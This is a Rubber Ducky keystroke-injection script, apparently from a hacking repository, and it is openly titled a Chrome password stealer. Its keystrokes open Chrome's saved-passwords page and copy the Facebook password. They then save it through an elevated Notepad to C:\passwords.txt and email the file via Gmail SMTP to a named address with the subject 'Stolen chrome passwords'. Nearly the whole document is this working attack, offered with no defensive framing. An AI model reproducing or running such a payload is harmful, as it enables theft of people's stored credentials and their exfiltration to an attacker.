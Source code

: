 # kamikazehacks-
101hacks
REM Author: Kamikazedeunknown
REM Ducky chrome password stealer: 1.0
REM Target: Windows 7
REM Description: Opens chrome, navigates to chrome settings, navigates to saved passwords, searches for facebook, shows password, copys password
REM closes chrome, Opens notepad with bypass uac so it can save to C:\ drive and pastes in password 
REM saves to C:\passwords.txt folder, closes notepad
REM sends files via gmail to account.
DELAY 2000
REM -------------open chrome
GUI r
DELAY 1000
STRING chrome
DELAY 1000
ENTER
DELAY 4000
REM -------------copy plaintext password
STRING chrome://settings/passwords
ENTER
DELAY 2000
STRING facebook
DELAY 500
TAB
DELAY 500
DOWN
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
ENTER
DELAY 500
ALT D
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
CTRL C
DELAY 500
ALT F4
DELAY 500
REM -------------save file to music folder as passwords.txt
GUI R
DELAY 500
STRING powershell start-process notepad.exe -Verb runAs
DELAY 500 
ENTER
DELAY 2000
ALT y
DELAY 1000
CTRL V
DELAY 500
ALT f
DELAY 500
STRING s
DELAY 500
STRING passwords.txt
DELAY 500
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
STRING c
DELAY 1000
STRING l
DELAY 500
ENTER
DELAY 500
ALT S
DELAY 1000
ALT F4
DELAY 500
REM -------------email log via gmail
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('youremail@gmail.com', 'password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'youremail@gmail.com'
ENTER
STRING $ReportEmail.To.Add('kamikazie137@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Stolen chrome passwords'
ENTER
STRING $ReportEmail.Body = 'Attached is your list of passwords.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\passwords.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
